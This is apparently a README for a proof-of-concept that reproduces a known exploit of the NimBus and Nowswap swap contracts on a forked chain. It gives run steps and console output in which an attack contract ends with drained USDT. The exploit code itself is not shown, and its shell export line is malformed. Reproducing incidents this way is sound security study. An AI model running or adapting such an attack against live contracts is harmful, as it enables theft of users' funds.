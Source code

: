 # NimBus & Nowswap PoC

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN 

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
--------------- first attack: nimbus swap -----------------
Transaction sent: 0x373fc09e6fb704a85fafcadd3db953b27ae25ca9c1e5356231a379ab7ee7a392
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  Luck.constructor confirmed   Block: 13225002   Gas used: 336785 (2.81%)
  Luck deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291

🧛 Before USDT balance of attack contract is 0
Transaction sent: 0x52d0664a4cfb32e9f2198a4bc9968be6aece8b9d3de2e466c718c00b01c4f9d3
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 3
  Luck.luck confirmed   Block: 13225003   Gas used: 138733 (1.16%)

🧛 After USDT balance of attack contract is 73601019
```
> The block number this poc select is 13225000

## link 

* https://twitter.com/BlockSecTeam/status/1438100688215560192
